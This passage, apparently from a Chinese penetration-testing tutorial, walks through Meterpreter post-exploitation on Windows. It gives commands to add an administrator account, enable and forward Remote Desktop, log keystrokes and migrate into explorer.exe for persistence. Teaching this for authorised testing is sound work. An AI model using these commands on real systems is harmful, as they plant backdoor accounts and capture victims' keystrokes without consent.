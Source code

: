 在目标系统中创建一个新的用户账号的方法一
~~~bash
run getgui -u 用户 -p 密码
-u: 指定用户
-p: 指定密码
~~~

> 这个命令会创建用户
> 并把他添加到 `Administrators` 组中
> 这样该用户就拥有远程桌面的权限了

在目标系统中创建一个新的用户账号的方法二
~~~bash
enable_rdp脚本:
run post/windows/manage/enable_rdp USERNAME=test2 PASSWORD=Abc123456  #添加用户
run post/windows/manage/enable_rdp                                    #开启远程桌面
run post/windows/manage/enable_rdp FORWARD=true LPORT=6662            #将3389端口转发到6662
~~~

#### 启用远程桌面
当我们新添加的用户已经拥有远程桌面之后
我们就可以使用这个账号凭证来开启远程桌面会话了

首先，我们需要确保目标 Windows 设备开启了远程桌面功能（需要开启多个服务）
我们输入
~~~bash
run post/windows/manage/enable_rdp
~~~
命令可以开启远程桌面

在开启远程桌面会话之前
我们还需要使用 `idletime` 命令检查远程用户的空闲时长
~~~bash
idletime #检查远程用户的空闲时长
~~~

开启远程桌面
~~~bash
run post/windows/manage/enable_rdp
~~~

#### 键盘记录
Meterpreter 还可以在目标设备上实现键盘记录功能
键盘记录主要涉及以下三种命令
~~~bash
keyscan_start  #开启键盘记录功能，开关键盘记录功能后目标输入的内容我们就通过keyscan_dump命令在Meterpreter里面进行查看；
keyscan_dump   #显示捕捉到的键盘记录信息
keyscan_stop   #停止键盘记录功能
~~~
> 在使用键盘记录功能时
> 通常需要跟目标进程进行绑定
> 然后获取该进程下的键盘记录

#### 进程迁移
Meterpreter 既可以单独运行
也可以与其他进程进行绑定
因此，我们可以让 `Meterpreter` 与类似 `explorer.exe` 这样的进程进行绑定
并以此来实现持久化
